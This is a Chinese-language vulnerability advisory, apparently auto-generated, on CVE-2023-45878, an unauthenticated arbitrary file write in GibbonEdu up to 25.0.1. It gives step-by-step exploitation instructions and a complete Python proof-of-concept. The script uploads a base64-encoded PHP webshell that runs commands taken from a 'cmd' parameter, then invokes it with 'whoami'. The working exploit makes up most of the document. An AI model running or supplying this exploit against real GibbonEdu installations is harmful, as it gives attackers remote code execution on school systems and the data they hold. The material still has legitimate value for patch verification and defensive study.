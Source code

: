 ## CVE-2023-45878-GibbonEdu-Arbitrary File Write

**漏洞编号:** CVE-2023-45878

**漏洞类型:** 任意文件写入

**影响应用:** GibbonEdu

**危害等级:** 高危，可导致远程代码执行

**影响版本:** <= 25.0.1

**利用条件:** 需要网络访问，目标系统开启了GibbonEdu服务

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2023-45878是GibbonEdu 25.0.1及之前版本中存在的任意文件写入漏洞。攻击者无需身份验证即可利用该漏洞，通过向`modules/Rubrics/rubrics_visualise_saveAjax.php`发送特制的POST请求，其中`img`参数包含base64编码的恶意PHP代码，`path`参数指定写入的文件名。由于程序没有进行严格的验证，攻击者可以将恶意PHP代码写入Web目录，从而实现远程代码执行。

**有效性：**
根据漏洞库信息和搜索结果，该漏洞的POC代码是有效的。POC代码模拟了攻击过程，通过POST请求向目标URL的`modules/Rubrics/rubrics_visualise_saveAjax.php`发送恶意数据，成功写入PHP文件。

**投毒风险：**
经过对POC代码的分析，未发现明显的投毒代码。该脚本的主要功能是利用漏洞在目标系统上写入一个包含命令执行功能的PHP文件，然后通过GET请求执行命令。没有发现任何作者隐藏的恶意行为，例如反向shell、数据窃取或其他未经授权的操作，因此投毒风险评估为0%。

**利用方式：**
1.  构造包含恶意PHP代码的base64编码字符串，例如用于执行系统命令的代码。
2.  构造POST请求，设置`img`参数为base64编码的恶意PHP代码，`path`参数为期望写入的文件名（通常是PHP后缀）。
3.  发送POST请求到`modules/Rubrics/rubrics_visualise_saveAjax.php`。
4.  如果写入成功，通过GET请求访问写入的PHP文件，并传递`cmd`参数来执行系统命令。

利用示例（基于提供的POC代码）：

```python
import requests
import sys
import random
import argparse
import string


def main():

    payload_file = ''.join(random.choices(string.ascii_letters + string.digits, k=6))
    endpoint = "modules/Rubrics/rubrics_visualise_saveAjax.php"
    payload = {
        "img":f"image/png;{payload_file},PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4=",
        "path":f"{payload_file}.php",
        "gibbonPersonID":"0000000001"

    }
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"

    }
    parser = argparse.ArgumentParser(description="GibbonEdu Gibbon version 25.0.1 Arbitrary File Write")
    parser.add_argument("url", type=str, help="Gibbon URL")
    args = parser.parse_args()

  
  
    print("Exploiting ...")
    print(f"{args.url}/{endpoint}")
    p_resp = requests.post(f"{args.url}/{endpoint}", headers=headers, data=payload)
    if p_resp.status_code!=200:
        print("[Err] Exploit failed!")
        sys.exit(-1)
    g_resp = requests.get(f"{args.url}/{payload_file}.php", params={"cmd":"whoami"})
    print(f"Got Webshell {args.url}/{payload_file}.php?cmd=whoami")
    print(g_resp.text)

if __name__ == '__main__':
    main()
```

该POC脚本首先生成一个随机的文件名，然后构造包含恶意PHP代码的payload，将payload发送到目标端点，如果写入成功，则通过GET请求访问写入的PHP文件并执行`whoami`命令，最后输出命令执行的结果。

**项目地址:** [killercd/CVE-2023-45878](https://github.com/killercd/CVE-2023-45878)

**漏洞详情:** [CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878)